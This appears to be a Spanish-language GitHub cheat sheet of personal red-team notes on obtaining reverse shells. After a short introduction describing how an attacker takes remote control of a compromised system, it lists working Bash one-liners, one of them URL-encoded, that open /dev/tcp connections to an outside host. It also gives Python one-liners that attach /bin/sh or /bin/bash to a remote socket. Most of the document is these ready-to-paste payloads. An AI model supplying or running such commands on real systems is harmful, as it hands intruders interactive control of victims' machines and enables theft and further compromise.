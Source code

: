 # Reverse Shell Cheat Sheet

<img src="https://i.imgur.com/5FnebYn.png" alt="Tunneling Red Team" width="400" height="300">



Una reverse shell es una técnica ampliamente utilizada en ciberseguridad que permite a un atacante tomar el control de un sistema comprometido y acceder a él de forma remota. Básicamente, una vez que el atacante ha logrado acceder al sistema, establece una conexión de red inversa entre el sistema comprometido y su propia máquina, lo que le permite ejecutar comandos de manera remota y controlar el sistema.
# **Contexto**

En estas notas personales, he recopilado posiblemente las mejores formas de obtener una Reverse Shell según mi experiencia. Algunas de ellas son experimentos propios que han funcionado, y también he recopilado algunas otras formas de obtener una conexión reversa. Esta lista práctica podría ser una de las mejores guías sobre cómo establecer una Reverse Shell.
## **Bash**

```
bash -i >& /dev/tcp/10.10.10.10/443 0>&1

bash -c "bash -i >& /dev/tcp/10.10.10.10/443 0>&1"

0<&196;exec 196<>/dev/tcp/10.10.10.10/443; sh <&196 >&196 2>&196

bash -l > /dev/tcp/10.10.10.10/443 0<&1 2>&1

bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.10.10%2F443%200%3E%261%22
```

## **Python**

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);’

export RHOST="10.10.10.10";export RPORT=443;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
